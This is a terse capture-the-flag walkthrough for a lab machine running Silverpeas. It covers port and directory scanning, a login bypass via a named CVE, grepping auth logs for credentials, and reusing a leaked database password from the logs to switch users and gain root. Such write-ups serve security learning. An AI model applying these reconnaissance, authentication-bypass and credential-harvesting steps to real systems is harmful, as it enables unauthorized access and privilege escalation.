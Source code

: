 # NMAP SCAN
-> nmap -sC -sV 10.10.27.111 

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sat, 12 Jul 2025 10:57:34 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close

# GOBUSTER
-> gobuster dir -e -u http://10.10.27.111/ -w /usr/share/wordlists/dirb/common.txt

http://10.10.27.111/assets               (Status: 301) [Size: 178] [--> http://10.10.27.111/assets/]                                                                              
http://10.10.27.111/images               (Status: 301) [Size: 178] [--> http://10.10.27.111 images/]                                                                              
http://10.10.27.111/index.html           (Status: 200) [Size: 14124]

## explore assets
-> gobuster dir -e -u http://10.10.27.111/assets/ -w /usr/share/wordlists/dirb/common.txt

http://10.10.27.111/assets/css                  (Status: 301) [Size: 178] [--> http://10.10.27.111/assets/css/]
http://10.10.27.111/assets/js                   (Status: 301) [Size: 178] [--> http://10.10.27.111/assets/js/]

## explore assets/js
-> gobuster dir -u http://10.10.27.111/assets/js/ -w /usr/share/wordlists/dirb/common.txt -x js
/main.js              (Status: 200) [Size: 8435]
/util.js              (Status: 200) [Size: 12433]

# REVIEW FILES
-> curl http://10.10.27.111/index.html -o index.html
-> curl http://10.10.27.111/assets/js/main.js -o main.js  
-> curl http://10.10.27.111/assets/js/util.js -o util.js

**they use silverpeas**

# GO ON PORT 8080
-> gobuster dir -e -u http://10.10.27.111:8080/ -w /usr/share/wordlists/dirb/common.txt
http://10.10.27.111:8080/console              (Status: 302) [Size: 0] [--> /noredirect.html]
http://10.10.27.111:8080/website              (Status: 302) [Size: 0] [--> http://10.10.27.111:8080/website/]

nothing util

-> look for silverpeas
http://10.10.27.111:8080/silverpeas/defaultLogin.jsp

**vulnerablity**: https://nvd.nist.gov/vuln/detail/CVE-2024-36042

# intercept login on silverpeas with BURPSUITE
used burpsuite proxy to intercept post request to silverpeas and applied the vulnerability

now we have access to silverpeas admin panel

# FIND SSH CREDS
https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47320

# ESCALATE PRIVILIGES
-> id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

-> cat /var/log/auth* | grep -i pass
Jul 12 14:03:34 silver-platter sshd[2086]: Accepted password for tim from 10.21.217.122 port 36000 ssh2
May  8 08:58:40 silver-platter sshd[1710]: Accepted password for tyler from 192.168.1.20 port 42258 ssh2
May  8 14:00:53 silver-platter sshd[1946]: Accepted password for tyler from 192.168.1.20 port 55742 ssh2
Dec 12 19:34:40 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/passwd tim
Dec 12 19:34:46 silver-platter passwd[1576]: pam_unix(passwd:chauthtok): password changed for tim
Dec 12 19:39:15 silver-platter sudo:    tyler : 3 incorrect password attempts ; TTY=tty1 ; PWD=/home/tyler ; USER=root ; COMMAND=/usr/bin/apt install nginx
Dec 13 15:39:07 silver-platter usermod[1597]: change user 'dnsmasq' password
Dec 13 15:39:07 silver-platter chage[1604]: changed password expiry for dnsmasq
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
Dec 13 15:45:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:silverpeas-6.3.1
Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
Dec 13 16:17:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/etc/nginx/sites-available ; USER=root ; COMMAND=/usr/bin/passwd tim
Dec 13 16:17:31 silver-platter passwd[6811]: pam_unix(passwd:chauthtok): password changed for tim
Dec 13 16:18:57 silver-platter sshd[6879]: Accepted password for tyler from 192.168.1.20 port 47772 ssh2
Dec 13 16:32:41 silver-platter sudo:    tyler : TTY=pts/0 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/passwd tim
Dec 13 16:32:54 silver-platter passwd[7174]: pam_unix(passwd:chauthtok): password changed for tim
Dec 13 16:33:12 silver-platter sshd[7181]: Accepted password for tim from 192.168.1.20 port 50970 ssh2
Dec 13 16:35:45 silver-platter sshd[7297]: Accepted password for tyler from 192.168.1.20 port 58172 ssh2
Dec 13 16:45:33 silver-platter sshd[7622]: Accepted password for tyler from 192.168.1.20 port 33484 ssh2
Dec 13 17:43:09 silver-platter sshd[7750]: Accepted password for tyler from 192.168.1.20 port 45796 ssh2
Dec 13 17:51:30 silver-platter sshd[1370]: Accepted password for tyler from 192.168.1.20 port 60860 ssh2
Dec 13 17:51:41 silver-platter sshd[1681]: Accepted password for tyler from 192.168.1.20 port 55392 ssh2


**found tyler pwd: DB_PASSWORD=_Zd_zx7N823/**

# ACCESS TO TYLER
-> su tyler

access to tyler

-> sudo su

done!

